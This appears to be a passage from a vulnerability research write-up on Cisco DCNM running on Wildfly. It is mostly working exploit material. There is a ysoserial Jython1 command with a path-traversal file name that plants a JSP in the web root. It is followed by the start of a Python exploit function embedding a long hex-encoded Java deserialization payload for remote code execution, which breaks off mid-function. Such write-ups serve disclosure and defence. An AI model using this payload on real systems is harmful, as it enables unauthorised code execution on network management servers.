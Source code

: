 ```bash
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar Jython1 "si.jsp;../../standalone/tmp/vfs/temp/xxxxxxxxxxxxxxxxxxxx/yyyyyyyyyyyyyyyyyyyyyyyy/si.jsp" > poc.bin
```

I used the path `/xxxxxxxxxxxxxxxxxxxx/yyyyyyyyyyyyyyyyyyyyyyyy/` here because the application server Cisco DCNM is using is [Wildfly](https://wildfly.org/) (known previously as Jboss) and it has hot deployment enabled meaning everytime the application server was restarted, the web root changes location. I could have written a war file into the hot deployment directory and have the war deployed on the fly (the hot deployment directory is a fixed path) but I used the web root because I could leak the virtual file path using a different vulnerability and the post exploitation cleanup was easier.

For reference, here is the `we_can_trigger_sqli_for_deserialization` and `we_can_trigger_deserialization` methods I used to exploit this code path for remote code execution.

```py
def we_can_trigger_sqli_for_deserialization(target, filename):
    ser = """aced0005737200176a6176612e7574696c2e5072696f7269747951756575
    6594da30b4fb3f82b103000249000473697a654c000a636f6d7061726174
    6f727400164c6a6176612f7574696c2f436f6d70617261746f723b787000
    000002737d0000000100146a6176612e7574696c2e436f6d70617261746f
    72787200176a6176612e6c616e672e7265666c6563742e50726f7879e127
    da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f726566
    6c6563742f496e766f636174696f6e48616e646c65723b78707372001a6f
    72672e707974686f6e2e636f72652e507946756e6374696f6e3fe65f596b
    67972b0200084c000b5f5f636c6f737572655f5f74001a4c6f72672f7079
    74686f6e2f636f72652f50794f626a6563743b4c00085f5f636f64655f5f
    7400184c6f72672f707974686f6e2f636f72652f5079436f64653b5b000c
    5f5f64656661756c74735f5f74001b5b4c6f72672f707974686f6e2f636f
    72652f50794f626a6563743b4c00085f5f646963745f5f71007e00084c00
    075f5f646f635f5f71007e00084c000b5f5f676c6f62616c735f5f71007e
    00084c000a5f5f6d6f64756c655f5f71007e00084c00085f5f6e616d655f
    5f7400124c6a6176612f6c616e672f537472696e673b787200186f72672e
    707974686f6e2e636f72652e50794f626a656374daaa6a7f5c5d0b7b0200
    024c000a617474726962757465737400124c6a6176612f6c616e672f4f62
    6a6563743b4c00076f626a747970657400184c6f72672f707974686f6e2f
    636f72652f5079547970653b787070737200236f72672e707974686f6e2e
    636f72652e50795479706524547970655265736f6c7665727b8153c59e62
    6af90200034c00066d6f64756c6571007e000b4c00046e616d6571007e00
    0b4c0010756e6465726c79696e675f636c6173737400114c6a6176612f6c
    616e672f436c6173733b787074000b5f5f6275696c74696e5f5f74000866
    756e6374696f6e7671007e0007707372001a6f72672e707974686f6e2e63
    6f72652e507942797465636f6465e63e58b3fab66c3802000849000c636f
    5f737461636b73697a65490005636f756e745a000564656275674900086d
    6178436f756e745b0007636f5f636f64657400025b425b0009636f5f636f
    6e73747371007e000a5b0009636f5f6c6e6f74616271007e00175b000863
    6f5f6e616d65737400135b4c6a6176612f6c616e672f537472696e673b78
    72001a6f72672e707974686f6e2e636f72652e507942617365436f64655e
    76d44441c3947402000c49000b636f5f617267636f756e7449000e636f5f
    66697273746c696e656e6f49000a636f5f6e6c6f63616c7349000c6a795f
    6e7075726563656c6c4900056e617267735a0007766172617267735a0009
    7661726b77617267735b000b636f5f63656c6c7661727371007e00184c00
    0b636f5f66696c656e616d6571007e000b4c0008636f5f666c6167737400
    1f4c6f72672f707974686f6e2f636f72652f436f6d70696c6572466c6167
    733b5b000b636f5f667265657661727371007e00185b000b636f5f766172
    6e616d657371007e0018787200166f72672e707974686f6e2e636f72652e
    5079436f6465745466123782c53b0200014c0007636f5f6e616d6571007e
    000b7871007e000c707371007e001071007e001374000862797465636f64
    657671007e00167400083c6d6f64756c653e000000020000000000000002
    00000000000000020000707400066e6f6e616d657372001d6f72672e7079
    74686f6e2e636f72652e436f6d70696c6572466c6167736cb83b068ebb10
    0f0200055a0011646f6e745f696d706c795f646564656e745a00086f6e6c
    795f6173745a000e736f757263655f69735f757466384c0008656e636f64
    696e6771007e000b4c0005666c61677374000f4c6a6176612f7574696c2f
```